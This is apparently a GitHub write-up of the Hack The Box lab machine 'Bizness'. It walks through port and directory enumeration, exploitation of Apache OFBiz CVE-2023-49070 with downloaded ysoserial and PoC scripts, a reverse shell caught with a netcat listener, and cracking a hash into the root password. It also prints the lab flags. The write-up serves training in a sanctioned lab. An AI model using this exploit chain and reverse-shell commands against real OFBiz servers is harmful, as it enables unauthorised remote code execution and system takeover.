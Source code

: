 
# Bizness

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/b394bd03-e005-41b0-bb83-60f236f052d4" />
</p>



Embrace the dawn of a fresh season as we unveil the latest additions to the gaming arena. Welcome to the exhilarating Season 4, where innovation and excitement collide. Leading the charge is the formidable Bizness, a dynamic machine that promises both challenge and reward. Boasting a lucrative 20-point bounty and an accessible easy difficulty level, Bizness beckons all daring adventurers. Without further ado, let's dive headfirst into the world of opportunities and embark on a thrilling journey – it's time to engage in some serious 'bizness'!


## Setting the Stage 
Before delving into the intricacies, our initial step involves the addition of the IP and domain to the crucial /etc/hosts file. This crucial setup ensures that the IP is recognized, laying the foundation for seamless interactions. Execute the command 'sudo nano /etc/hosts' to initiate this imperative configuration.

```bash
echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

## Enumeration with Nmap
Nmap serves as the indispensable compass, unveiling the intricacies of system architecture and potential vulnerabilities with its versatile commands

```bash
nmap -Pn -sC -sV 10.10.11.252
```
As we initiate enumeration, a preliminary port scan discloses the accessibility of ports 22, 80, and 443.
![Bizness](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/2e2cdf84-96c0-453e-acf2-083c71d1a947)


## Exploring the Vast Horizons of the Web .
Now let’s move to the next step for enumeration. Let’s use dirsearch tool to search for other endpoints.

```bash
sudo apt-get install dirsearch
dirsearch -u https://bizness.htb -e*
```

After using dirsearch we get login endpoints.

After doing directory enumeration we see there directory of /control/login 
![Bizness Login](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/681a5c2c-5923-4f93-9446-aaf5add44414)


## Art of Exploitation: Navigating Security Challenges :
"Upon entering the login page, it becomes evident that the system employs the Apache OFBiz web framework. Subsequent investigation yielded the following insights."



_There Vulnerability of ofbiz-CVE-2023–49070-RCE-POC_

- Link of exploitation: — https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/tree/main?tab=readme-ov-file


```bash
sudo update-alternatives — config java

use “ 1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode”
```

Further exploration revealed....
```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

```bash
wget https://raw.githubusercontent.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/main/exploit.py
```

Now we see that we can execute any command by using the above exploit . So, we try to get reverse shell.

## Executing the Payload

```bash
python3 exploit.py https://bizness.htb/ shell ip:4444
```

Subsequently, execute on a second terminal.
```bash
nc -lnvp 4444
```


then you will get user shell ....

## User Flag :

Upon successfully obtaining the reverse shell, navigating directories became a challenge. Fret not, as I've got you covered. Change the directory to /home/ofbiz, where you'll find a text file named user.txt. Simply execute 'cat' on the file, and voila! You've secured the user flag. 


```bash
ofbiz@bizness:/opt/ofbiz$ cd /home/ofbiz
cd /home/ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
d96f0aefb0311de8c1da1c174db554d7
```


We successfully secured the User flag as 'd96f0aefb0311de8c1da1c174db554d7' However, the journey to the root flag is yet to be completed. No need to worry, though—I've got your back.

Upon investigation, we uncovered the Derby database and a hash: '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN.' Breaking it down, '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN' signifies the use of the SHA-1 hashing algorithm ('$SHA$'), 'd' for salt, and the remaining string as the hashed value. Let's dive deeper into the data to uncover the next steps.


## Privilege Escalation: Elevating System Access Safely 

Execute this Python script to decode the SHA-1 hash.

```bash
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN
```
```bash
python3 decode.py
```

After successfully decoding the SHA-1 hash with the provided Python script, the revelation of the password 'monkeybizness' marks a pivotal moment in our journey. Leveraging this newfound credential, we elevate our privileges by executing 'su' and entering the passphrase. Transitioning into the root directory, we discover the existence of a file named 'root.txt.' As we delve into its contents, the triumphant sight of the root flag brings our exploration to a gratifying conclusion. This process underscores the significance of careful navigation and strategic execution in the realm of privilege escalation, culminating in the attainment of the ultimate access level .

```bash
password :  'monkeybizness'
```

cat root.txt you will get root password.
```

ofbiz@bizness:~$ su root
su root
Password: monkeybizness

ls
user.txt
cd /root
ls
root.txt
cat root.txt
41b08f62f103ded31455f3f3a8be5cde

```

 <hr>
 </hr>

## CVE-2023-49070

 Pre-auth RCE in Apache Ofbiz 18.12.09. It's due to XML-RPC no longer maintained still present. This issue affects Apache OFBiz: before 18.12.10.  Users are recommended to upgrade to version 18.12.10

 Reference :  
 - https://nvd.nist.gov/vuln/detail/CVE-2023-49070
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49070
 

<p align="center">
   <a href="https://www.hackthebox.com/achievement/machine/672066/582" >
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6c750e80-d65b-4a0b-91f2-d67192dffee9" align="center" alt="Bizness-htb pwnd by Mr.Govind" />
   <a/>
</p>
